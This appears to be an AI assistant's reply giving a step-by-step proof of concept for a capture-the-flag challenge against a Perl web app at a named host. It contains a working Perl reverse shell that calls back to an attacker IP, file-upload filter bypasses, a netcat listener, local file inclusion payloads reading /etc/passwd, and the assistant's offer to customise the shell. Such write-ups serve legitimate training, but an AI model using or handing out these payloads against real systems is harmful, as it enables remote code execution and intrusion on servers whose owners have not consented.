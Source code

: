 Here's a **step-by-step PoC (Proof of Concept)** tailored to your CTF constraints:

- PERL-based vulnerable app
- Focus on **File Upload RCE** and **LFI**
- WAF is present
- Flag ID is known
- Flag content is known: `P3RL_B3AST`
- You have only 30 mins — this is fast, lean, and gets the flag.

Find flag command to run in nc.
```
grep -r "P3RL_B3AST" /home /var /opt /tmp 2>/dev/null

find / -name flag.txt 2>/dev/null
```

---

### 🔧 TOOLS REQUIRED:

- Kali (with curl, Burp Suite, Netcat)
- Burp or browser for upload testing
- A terminal with Netcat listener

---

## 📍 Step-by-Step PoC

### **Step 1: Analyze Upload Functionality**

Visit:

```
http://hacksmith.webhop.me:5565
```

Look for:

- File upload field (likely .jpg/.txt/.pl accepted)
- Check for extensions allowed (try bypassing if .php or .pl not allowed)

---

### **Step 2: Prepare Reverse Shell in Perl**

#### ✅ Perl Reverse Shell Payload

```perl
#!/usr/bin/perl
use Socket;
$i="YOUR_IP"; # attacker IP
$p=PORT;      # attacker port
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
};
```

#### 🔐 Rename the file:

```
shell.txt → shell.pl
```

Or upload with bypass:

```
shell.pl.jpg
```

Or Content-Type bypass using Burp Suite:

```http
Content-Type: image/jpeg
```

---

### **Step 3: Upload the Reverse Shell**

- Upload `shell.pl` using browser or Burp
- Check upload response or directory:  
    Common path:

```
http://hacksmith.webhop.me:5565/uploads/shell.pl
```

Test access by visiting uploaded path.

---

### **Step 4: Setup Netcat Listener**

```bash
nc -lvnp PORT
```

Make sure PORT matches your reverse shell.

---

### **Step 5: Trigger Reverse Shell**

Visit:

```
http://hacksmith.webhop.me:5565/uploads/shell.pl
```

If successful, you’ll get a shell back in `nc`.

---

### **Step 6: Find the Flag**

Once inside the shell:

```bash
grep -r "P3RL_B3AST" /home /var /opt /tmp 2>/dev/null
```

Or, since you have the flag ID:

```bash
grep -r "20c08b01-b30a-4580-95ce-12506c1283ad" /home /var /opt /tmp 2>/dev/null
```

Once you see:

```
FLAG: P3RL_B3AST
```

Copy it, screenshot it.

---

## ⚠️ ALTERNATE PATH: LFI

If you find an LFI:

### Try payload:

```
http://hacksmith.webhop.me:5565/index.pl?page=../../../../../../../../etc/passwd
```

Try uploading malicious file (PHP/Perl script), then use LFI to include it:

```
?page=../../uploads/shell.pl
```

Use same Netcat listener method.

---

## ✅ Summary PoC:

1. Upload `shell.pl` (Perl reverse shell)
2. Listener: `nc -lvnp PORT`
3. Trigger reverse shell
4. Get shell
5. Run:

```bash
grep -r "P3RL_B3AST" / 2>/dev/null
```

6. Screenshot and submit the flag.

---

Want me to generate the exact reverse shell file with your IP and Port for direct upload?